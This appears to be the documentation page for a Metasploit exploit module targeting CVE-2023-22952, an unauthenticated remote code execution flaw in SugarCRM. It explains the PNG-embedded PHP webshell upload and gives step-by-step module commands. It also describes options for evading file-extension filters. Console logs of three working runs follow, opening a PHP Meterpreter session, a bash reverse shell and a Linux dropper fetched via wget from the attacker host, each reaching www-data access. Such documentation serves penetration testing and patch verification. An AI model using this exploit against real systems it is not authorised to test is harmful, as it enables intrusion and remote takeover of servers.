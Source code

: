 ## Vulnerable Application

This module exploits CVE-2023-22952, a Remote Code Execution (RCE) vulnerability in SugarCRM 11.0 Enterprise,
Professional, Sell, Serve, and Ultimate versions prior to `11.0.5` and SugarCRM 12.0 Enterprise, Sell, and
Serve versions prior to `12.0.2`.

The vulnerability occurs due to a lack of appropriate validation when uploading a malicious `PNG` file with
embedded PHP code to the `/cache/images/` directory on the web server using the vulnerable endpoint
`/index.php?module=EmailTemplates&action=AttachFiles`. Once uploaded to the server, depending on server configuration,
the attacker can access the malicious PNG file via HTTP or HTTPS, thereby executing the malicious PHP code and
gaining access to the system.

This vulnerability does not require authentication because there is a missing authentication check in the
`loadUser()` method in `include/MVC/SugarApplication.php`. After a failed login, the session does not get
destroyed and hence the attacker can continue to send valid requests to the application. See this
[AttackerKB Article](https://attackerkb.com/topics/E486ui94II/cve-2023-22952) for more details.

Because of this, any remote attacker, regardless of authentication, can exploit this vulnerability to gain
access to the underlying operating system as the user that the web services are running as (typically `www-data`).

Installing a vulnerable test bed requires a Linux machine with the vulnerable SugarCRM software loaded.
This module has been tested against a SugarCRM installation with the specifications listed below:

* SugarCRM Enterprise Edition
* Version: `11.0.4`
* Build: `300`
* Linux OS: Debian 8.6

## Verification Steps

1. `use exploit/multi/http/sugarcrm_webshell_cve_2023_22952`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension of the webshell.
This is handy if you want to test the webshell upload and execution with different file extensions (.phtml, .php7, .inc)
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - PHP Meterpreter session
```
msf6 > use exploit/multi/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/multi/http/sugarcrm_webshell_cve_2023_22952):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       SugarCRM base url
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
   WEBSHELL                    no        The name of the webshell with extension to trick the parser like .phtml, .phar, etc. Webshell
                                         name will be randomly generated if left unset.


   When TARGET is not 0:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                        0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 0
target => 0
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.100.180
[+] Deleted cXSbMSaTtcnn.phtml
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-02-15 14:11:23 +0000

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Meterpreter  : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - bash reverse shell
```
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 1
target => 1
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted RPXrYGLCvGjL.phar
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-01-19 19:14:56 +0000

whoami
www-data
exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - Linux Meterpreter session
```
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 2
target => 2
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.100.254:8080/aLYDt2
[*] Client 127.0.0.1 (Wget/1.16 (linux-gnu)) requested /aLYDt2
[*] Sending payload to 127.0.0.1 (Wget/1.16 (linux-gnu))
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted ZxGTSVGsOUZs.phtml
[*] Meterpreter session 3 opened (127.0.0.1:4444 -> 127.0.0.1:43076) at 2023-01-19 19:16:07 +0000
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

## Limitations
No `check` method.
